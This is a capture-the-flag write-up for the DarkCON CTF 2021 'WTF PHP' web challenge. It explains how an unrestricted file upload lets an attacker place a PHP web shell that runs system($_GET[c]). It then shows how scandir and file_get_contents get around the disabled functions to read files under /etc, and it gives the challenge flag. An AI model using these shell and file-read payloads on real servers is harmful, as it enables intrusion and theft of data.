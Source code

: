 # DarkCON CTF 2021 – WTF PHP

* **Category:** web
* **Points:** 269

## Challenge

> Your php function didnt work? maybe some info will help you xD PS: Flag is somewhere in /etc Note: This chall does not require any brute forcing
> 
> http://wtf-php.darkarmy.xyz/

## Solution

The website allows to upload a file. Analyzing the HTML you can discover an interesting comment containing a PHP snippet.

```html
<html>
   <body>
      <form action="" method="POST" enctype="multipart/form-data">
         <input type="file" name="fileData" />
         <input type="submit"/>
      </form>
   </body>
<!--
   if(isset($_FILES['fileData'])){
      if($_FILES['fileData']['size'] > 1048576){
         $errors='File size must be excately 1 MB';
      }

      if(empty($errors)==true){
        $uploadedPath = "uploads/".rand().".".explode(".",$_FILES['fileData']['name'])[1];
        move_uploaded_file($_FILES['fileData']['tmp_name'],$uploadedPath);
        echo "File uploaded successfully\n";
        echo '<p><a href='. $uploadedPath .' target="_blank">File</a></p>';
      }else{
         echo $errors;
      }
   }
-->

</html>
```

The website returns you a link to the uploaded file, it renames the file with a random value preserving the extension. So, a PHP shell can be uploaded and visited executing its content.

```php
<?php
    echo "<h1>Exploit Output</h1><br /><code>";
    echo system($_GET[c]);
    echo "</code>";
?>
```

Unfortunately the RCE doesn't work, but the text says:

> maybe some info will help you xD

So you can try to understand what's happening using `phpinfo`.

```php
<?php
    echo "<h1>Exploit Output</h1><br /><hr /><code>";
    echo system($_GET[c]);
    echo "</code><hr />";
    echo phpinfo();
?>
```

Some functions are disabled, you can see them under `disable_functions` section of `phpinfo()` output.

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,error_log,link,symlink,syslog,ld,mail,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,highlight_file,file,fopen,fread,var_dump,readfile
```

`scandir` and `file_get_contents` are not disabled and the flag is under `/etc`.

A simple [exploit](exploit.php) can be created and uploaded.

```php
<?php
    echo "<h1>Exploit Output</h1><br /><hr />";
    $dir = "/etc/";
    $items = scandir($dir);
    foreach($items as $key => $value) {
        $file = $dir . $value;
        if(is_file($file)) {
            $file_content = file_get_contents($file);
            if(strpos($file_content, "darkCON{") !== false) {
                echo "<p>File name: $file</p><br />File content:<br /><code>";
                echo $file_content;
                echo "</code>";
            }
        }
    }
    echo "<hr />";
    echo phpinfo();
?>
```

The exploit output will be the following.

```
File name: /etc/f1@g.txt


File content:
darkCON{us1ng_3_y34r_01d_bug_t0_byp4ss_d1s4ble_funct10n}
```